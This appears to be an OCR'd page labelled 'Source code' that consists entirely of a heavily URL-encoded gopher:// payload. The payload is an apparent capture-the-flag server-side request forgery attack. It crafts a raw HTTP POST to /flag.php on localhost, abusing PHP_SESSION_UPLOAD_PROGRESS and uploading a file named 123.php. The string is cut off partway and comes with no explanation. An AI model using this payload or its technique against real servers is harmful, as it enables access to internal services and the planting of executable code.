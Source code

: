 ```
gopher://127.0.0.1:80/_POST%252520%25252Fflag.php%252520HTTP%25252F1.1%25250d%25250aHost%25253A%25253127.0.0.1%25250d%25250aContent-Length%25253A%252520333%25250d%25250a%252543%252561%252563%252568%252565%25252d%252543%25256f%25256e%252574%252572%25256f%25256c%25253a%252520%25256d%252561%252578%25252d%252561%252567%252565%25253d%252530%25250d%25250a%252555%252570%252567%252572%252561%252564%252565%25252d%252549%25256e%252573%252565%252563%252575%252572%252565%25252d%252552%252565%252571%252575%252565%252573%252574%252573%25253a%252520%252531%25250d%25250a%25254f%252572%252569%252567%252569%25256e%25253a%252520%252568%252574%252574%252570%25253a%25252f%25252f%252531%252539%252532%25252e%252531%252536%252538%25252e%252531%252533%252539%25252e%252531%25250d%25250a%252543%25256f%25256e%252574%252565%25256e%252574%25252d%252554%252579%252570%252565%25253a%252520%25256d%252575%25256c%252574%252569%252570%252561%252572%252574%25252f%252566%25256f%252572%25256d%25252d%252564%252561%252574%252561%25253b%252520%252562%25256f%252575%25256e%252564%252561%252572%252579%25253d%25252d%25252d%25252d%25252d%252557%252565%252562%25254b%252569%252574%252546%25256f%252572%25256d%252542%25256f%252575%25256e%252564%252561%252572%252579%252574%25254c%252574%252544%252566%252562%25256d%252536%252548%252578%252575%252578%252567%252576%252556%252578%25250d%25250a%252555%252573%252565%252572%25252d%252541%252567%252565%25256e%252574%25253a%252520%25254d%25256f%25257a%252569%25256c%25256c%252561%25252f%252535%25252e%252530%252520%252528%252557%252569%25256e%252564%25256f%252577%252573%252520%25254e%252554%252520%252531%252530%25252e%252530%25253b%252520%252557%252569%25256e%252536%252534%25253b%252520%252578%252536%252534%252529%252520%252541%252570%252570%25256c%252565%252557%252565%252562%25254b%252569%252574%25252f%252535%252533%252537%25252e%252533%252536%252520%252528%25254b%252548%252554%25254d%25254c%25252c%252520%25256c%252569%25256b%252565%252520%252547%252565%252563%25256b%25256f%252529%252520%252543%252568%252572%25256f%25256d%252565%25252f%252538%252535%25252e%252530%25252e%252534%252531%252538%252533%25252e%252531%252530%252532%252520%252553%252561%252566%252561%252572%252569%25252f%252535%252533%252537%25252e%252533%252536%25250d%25250a%252541%252563%252563%252565%252570%252574%25253a%252520%252574%252565%252578%252574%25252f%252568%252574%25256d%25256c%25252c%252561%252570%252570%25256c%252569%252563%252561%252574%252569%25256f%25256e%25252f%252578%252568%252574%25256d%25256c%25252b%252578%25256d%25256c%25252c%252561%252570%252570%25256c%252569%252563%252561%252574%252569%25256f%25256e%25252f%252578%25256d%25256c%25253b%252571%25253d%252530%25252e%252539%25252c%252569%25256d%252561%252567%252565%25252f%252561%252576%252569%252566%25252c%252569%25256d%252561%252567%252565%25252f%252577%252565%252562%252570%25252c%252569%25256d%252561%252567%252565%25252f%252561%252570%25256e%252567%25252c%25252a%25252f%25252a%25253b%252571%25253d%252530%25252e%252538%25252c%252561%252570%252570%25256c%252569%252563%252561%252574%252569%25256f%25256e%25252f%252573%252569%252567%25256e%252565%252564%25252d%252565%252578%252563%252568%252561%25256e%252567%252565%25253b%252576%25253d%252562%252533%25253b%252571%25253d%252530%25252e%252539%25250d%25250a%252552%252565%252566%252565%252572%252565%252572%25253a%252520%252568%252574%252574%252570%25253a%25252f%25252f%252531%252539%252532%25252e%252531%252536%252538%25252e%252531%252533%252539%25252e%252531%25252f%252575%252570%25256c%25256f%252561%252564%25255f%252573%252565%252572%25252e%252570%252568%252570%25250d%25250a%252541%252563%252563%252565%252570%252574%25252d%252545%25256e%252563%25256f%252564%252569%25256e%252567%25253a%252520%252567%25257a%252569%252570%25252c%252520%252564%252565%252566%25256c%252561%252574%252565%25250d%25250a%252541%252563%252563%252565%252570%252574%25252d%25254c%252561%25256e%252567%252575%252561%252567%252565%25253a%252520%25257a%252568%25252d%252543%25254e%25252c%25257a%252568%25253b%252571%25253d%252530%25252e%252539%25252c%252565%25256e%25253b%252571%25253d%252530%25252e%252538%25252c%252561%25256d%25253b%252571%25253d%252530%25252e%252537%25250d%25250a%252543%25256f%25256e%25256e%252565%252563%252574%252569%25256f%25256e%25253a%252520%252563%25256c%25256f%252573%252565%25250d%25250a%25250d%25250a%25252d%25252d%25252d%25252d%25252d%25252d%252557%252565%252562%25254b%252569%252574%252546%25256f%252572%25256d%252542%25256f%252575%25256e%252564%252561%252572%252579%252574%25254c%252574%252544%252566%252562%25256d%252536%252548%252578%252575%252578%252567%252576%252556%252578%25250d%25250a%252543%25256f%25256e%252574%252565%25256e%252574%25252d%252544%252569%252573%252570%25256f%252573%252569%252574%252569%25256f%25256e%25253a%252520%252566%25256f%252572%25256d%25252d%252564%252561%252574%252561%25253b%252520%25256e%252561%25256d%252565%25253d%252522%252550%252548%252550%25255f%252553%252545%252553%252553%252549%25254f%25254e%25255f%252555%252550%25254c%25254f%252541%252544%25255f%252550%252552%25254f%252547%252552%252545%252553%252553%252522%25250d%25250a%25250d%25250a%252531%252532%252533%25250d%25250a%25252d%25252d%25252d%25252d%25252d%25252d%252557%252565%252562%25254b%252569%252574%252546%25256f%252572%25256d%252542%25256f%252575%25256e%252564%252561%252572%252579%252574%25254c%252574%252544%252566%252562%25256d%252536%252548%252578%252575%252578%252567%252576%252556%252578%25250d%25250a%252543%25256f%25256e%252574%252565%25256e%252574%25252d%252544%252569%252573%252570%25256f%252573%252569%252574%252569%25256f%25256e%25253a%252520%252566%25256f%252572%25256d%25252d%252564%252561%252574%252561%25253b%252520%25256e%252561%25256d%252565%25253d%252522%252566%252569%25256c%252565%252522%25253b%252520%252566%252569%25256c%252565%25256e%252561%25256d%252565%25253d%252522%252531%252532%252533%25252e%252570%252568%252570%252522%25250d%25250a%252543%25256f%25256e%252574%252565%25256
```